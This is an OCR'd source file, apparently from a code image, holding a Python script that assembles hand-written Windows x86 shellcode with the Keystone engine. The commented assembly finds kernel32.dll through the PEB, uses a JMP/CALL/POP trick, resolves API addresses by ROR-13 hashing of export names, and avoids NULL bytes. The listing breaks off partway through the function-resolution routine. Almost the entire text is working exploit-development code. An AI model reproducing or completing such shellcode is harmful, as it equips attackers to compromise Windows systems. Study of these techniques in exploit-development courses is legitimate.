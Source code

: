 ```python
import ctypes, struct           # Import necessary modules for memory manipulation
from keystone import *          # Import Keystone engine for assembling code

CODE = (
    " start:                             "  # Beginning of shellcode
    "   mov   ebp, esp                  ;"  # Stack base - save stack pointer in EBP register
    "   add   esp, 0xfffff9f0           ;"  # ~1600 bytes of stack space (using negative value to avoid NULL bytes)
    " find_kernel32:                     "  # Start of kernel32.dll location routine
    "   xor   ecx, ecx                  ;"  # ECX = 0 (zero out register without using NULL bytes)
    "   mov   esi, fs:[ecx+0x30]        ;"  # ESI = PEB (Process Environment Block via FS segment)
    "   mov   esi, [esi+0x0C]           ;"  # ESI = PEB->Ldr (loader data)
    "   mov   esi, [esi+0x1C]           ;"  # ESI = InInitOrder (module list in initialization order)
    " next_module:                       "  # Loop marker for module iteration
    "   mov   ebx, [esi+0x08]           ;"  # EBX = module base (kernel32.dll)
    "   mov   edi, [esi+0x20]           ;"  # EDI = module name pointer
    "   mov   esi, [esi]                ;"  # Next module in the linked list
    "   cmp   [edi+12*2], cx            ;"  # Check for kernel32.dll (12th character position for NULL in Unicode)
    "   jne   next_module               ;"  # If not kernel32.dll, continue to next module
    " find_function_shorten:             "  # Beginning of function address resolution routine
    "   jmp find_function_shorten_bnc   ;"  # Jump to call instruction (JMP/CALL/POP technique)
    " find_function_ret:                 "  # Return address for the CALL instruction
    "   pop esi                         ;"  # ESI = address of find_function routine (from CALL push)
    "   mov   [ebp+0x04], esi           ;"  # Store find_function address for later calls
    "   jmp resolve_symbols_kernel32    ;"  # Skip past the find_function code to resolution section
    " find_function_shorten_bnc:         "  # Bouncer for the JMP/CALL/POP technique
    "   call find_function_ret          ;"  # CALL pushes next instruction address to stack
    " find_function:                     "  # Function to find API addresses by hash
    "   pushad                          ;"  # Save all registers to stack
    "   mov   eax, [ebx+0x3c]           ;"  # EAX = PE header offset (e_lfanew)
    "   mov   edi, [ebx+eax+0x78]       ;"  # EDI = export table RVA
    "   add   edi, ebx                  ;"  # Convert RVA to VA (virtual address)
    "   mov   ecx, [edi+0x18]           ;"  # ECX = number of exported functions
    "   mov   eax, [edi+0x20]           ;"  # EAX = RVA of function names array
    "   add   eax, ebx                  ;"  # Convert names array RVA to VA
    "   mov   [ebp-4], eax              ;"  # Cache function names array address
    " find_function_loop:                "  # Loop through exported functions
    "   jecxz find_function_finished    ;"  # If ECX=0 (no more functions), exit loop
    "   dec   ecx                       ;"  # Decrement counter (loop from last to first)
    "   mov   eax, [ebp-4]              ;"  # EAX = function names array address
    "   mov   esi, [eax+ecx*4]          ;"  # ESI = RVA of current function name
    "   add   esi, ebx                  ;"  # Convert function name RVA to VA
    " compute_hash:                      "  # Begin hash calculation for function name
    "   xor   eax, eax                  ;"  # Clear EAX for character loading
    "   cdq                             ;"  # Clear EDX (extend sign bit of EAX to EDX) for hash value
    "   cld                             ;"  # Clear direction flag (ensure string ops move forward)
    " compute_hash_again:                "  # Hash calculation loop
    "   lodsb                           ;"  # Load next character from ESI into AL
    "   test  al, al                    ;"  # Check if character is NULL (end of string)
    "   jz    compute_hash_finished     ;"  # If NULL, hash calculation complete
    "   ror   edx, 0x0d                 ;"  # Rotate right hash value by 13 bits
    "   add   edx, eax                  ;"  # Add character value to hash
    "   jmp   compute_hash_again        ;"  # Process next character
    " compute_hash_finished:             "  # Hash calculation complete
    " find_function_compare:             "  # Compare calculated hash with target
    "   cmp   edx, [esp+0x24]           ;"  # Compare hash with argument (pushed before PUSHAD)
    "   jnz   find_function_loop        ;"  # If no match, try next function
    "   mov   edx, [edi+0x24]           ;"  # EDX = RVA of ordinals table
```